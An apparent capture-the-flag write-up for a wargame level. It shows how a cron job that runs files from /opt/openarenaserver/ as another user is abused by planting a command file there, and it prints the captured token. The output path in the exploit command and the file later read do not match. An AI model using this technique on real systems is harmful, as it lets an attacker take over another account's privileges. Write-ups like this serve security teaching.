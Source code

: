 ## Step 1: Identifying the User

We begin by checking our current user informations:

```bash
$ id
uid=2005(level05) gid=2005(level05) groups=2005(level05),100(users)
```

This shows that we are operating as the user `level05`.

---
When we logged into the machine, a message appeared:
```
You have new mail.
```

## Step 2: Searching for Files

Next, let's search for files related to mail:
```bash
$ find / -name mail 2> /dev/null
/usr/lib/byobu/mail
/var/mail
/var/spool/mail
/rofs/usr/lib/byobu/mail
/rofs/var/mail
/rofs/var/spool/mail

```

Among the results, the contents of `/rofs/var/mail/level05` seem interesting:
```bash
$ cat level05 
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```
We learn from this that a cron job is running every 2 minutes, executing the script `/usr/sbin/openarenaserver` with `flag05` user privileges.

Let's take a look at this script.

---
## Step 3: Read the source code of script

First, let's identify the type of the script:
```bash
$ file /usr/sbin/openarenaserver
/usr/sbin/openarenaserver: POSIX shell script, ASCII text executable
```
```bash
$ cat /usr/sbin/openarenaserver

#!/bin/sh
for i in /opt/openarenaserver/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
done
```
### Explanation:
The script loops over all files in the /opt/openarenaserver/ directory.
For each file, it runs the script with bash in debug mode (bash -x) while limiting the execution time to 5 seconds using ulimit -t 5.
After executing, the script deletes the file.

---
## Step 4: Exploiting the Binary to Get a flag
To exploit this, we can create a file in /opt/openarenaserver/ that contains a command we want to execute with flag05 privileges. In this case, we want to obtain the flag, so we can create a file with the following content:

```bash
echo 'getflag > /tmp/output_getflag' > /opt/openarenaserver/exploit
```
When the cron job runs the script, it will execute our file and redirect the output of getflag to /tmp/output_getflag.

```bash
$ cat /tmp/output_flag
Check flag.Here is your token : viuaaale9huek52boumoomioc
```
---

And there you have it, the token is `viuaaale9huek52boumoomioc`.
